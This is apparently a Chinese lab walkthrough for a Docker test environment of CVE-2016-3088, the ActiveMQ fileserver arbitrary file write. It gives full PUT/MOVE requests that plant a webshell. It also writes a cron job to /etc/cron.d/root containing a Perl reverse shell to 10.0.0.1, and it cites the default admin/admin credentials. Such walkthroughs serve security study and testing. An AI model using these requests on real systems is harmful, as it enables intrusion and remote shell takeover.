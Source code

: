 # ActiveMQ任意文件写入漏洞（CVE-2016-3088）

## 环境搭建

搭建及运行漏洞环境：

```
docker-compose build
docker-compose up -d
```

环境监听{{port[0]}}端口和{{port[1]}}端口，其中{{port[0]}}为web控制台端口，本漏洞就出现在web控制台中。

访问`http://{{ip}}:{{port[0]}}/`看到web页面，说明环境已成功运行。

## 背景简述

ActiveMQ的web控制台分三个应用，admin、api和fileserver，其中admin是管理员页面，api是接口，fileserver是储存文件的接口；admin和api都需要登录后才能使用，fileserver无需登录。

fileserver是一个RESTful API接口，我们可以通过GET、PUT、DELETE等HTTP请求对其中存储的文件进行读写操作，其设计目的是为了弥补消息队列操作不能传输、存储二进制文件的缺陷，但后来发现：

1. 其使用率并不高
2. 文件操作容易出现漏洞

所以，ActiveMQ在5.12.x~5.13.x版本中，已经默认关闭了fileserver这个应用（你可以在conf/jetty.xml中开启之）；在5.14.0版本以后，彻底删除了fileserver应用。

在测试过程中，可以关注ActiveMQ的版本，避免走弯路。

## 漏洞详情

本漏洞出现在fileserver应用中，漏洞原理其实非常简单，就是fileserver支持写入文件（但不解析jsp），同时支持移动文件（MOVE请求）。所以，我们只需要写入一个文件，然后使用MOVE请求将其移动到任意位置，造成任意文件写入漏洞。

文件写入有几种利用方法：

1. 写入webshell
2. 写入cron或ssh key等文件
3. 写入jar或jetty.xml等库和配置文件

写入webshell的好处是，门槛低更方便，但前面也说了fileserver不解析jsp，admin和api两个应用都需要登录才能访问，所以有点鸡肋；写入cron或ssh key，好处是直接反弹拿shell，也比较方便，缺点是需要root权限；写入jar，稍微麻烦点（需要jar的后门），写入xml配置文件，这个方法比较靠谱，但有个鸡肋点是：我们需要知道activemq的绝对路径。

分别说一下上述几种利用方法。

### 写入webshell

前面说了，写入webshell，需要写在admin或api应用中，而这俩应用都需要登录才能访问。

默认的ActiveMQ账号密码均为`admin`，首先访问`http://{{ip}}:{{port[0]}}/admin/test/systemProperties.jsp`，查看ActiveMQ的绝对路径：

![](/vuln/CVE-2016-3088/02.png)

然后上传webshell：

```
PUT /fileserver/2.txt HTTP/1.1
Host: {{ip}}:{{port[0]}}
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Length: 120976

webshell...
```

移动到web目录下的api文件夹（`/opt/activemq/webapps/api/s.jsp`）中：

```
MOVE /fileserver/2.txt HTTP/1.1
Destination: file:///opt/activemq/webapps/api/s.jsp
Host: {{ip}}:{{port[0]}}
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Length: 0


```

访问webshell（需要登录）：

![](/vuln/CVE-2016-3088/03.png)

### 写入crontab，自动化弹shell

这是一个比较稳健的方法。首先上传cron配置文件（注意，换行一定要`\n`，不能是`\r\n`，否则crontab执行会失败）：

```
PUT /fileserver/1.txt HTTP/1.1
Host: {{ip}}:{{port[0]}}
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Length: 248

*/1 * * * * root /usr/bin/perl -e 'use Socket;$i="10.0.0.1";$p=21;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
##
```

将其移动到`/etc/cron.d/root`：

```
MOVE /fileserver/1.txt HTTP/1.1
Destination: file:///etc/cron.d/root
Host: {{ip}}:{{port[0]}}
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Length: 0


```

如果上述两个请求都返回204了，说明写入成功。等待反弹shell：

![](/vuln/CVE-2016-3088/01.png)

这个方法需要ActiveMQ是root运行，否则也不能写入cron文件。

### 写入jetty.xml或jar

理论上我们可以覆盖jetty.xml，将admin和api的登录限制去掉，然后再写入webshell。

有的情况下jetty.xml和jar等所有人是web容器的用户，所以相比起来，写入crontab成功率更高一点。

尚未测试。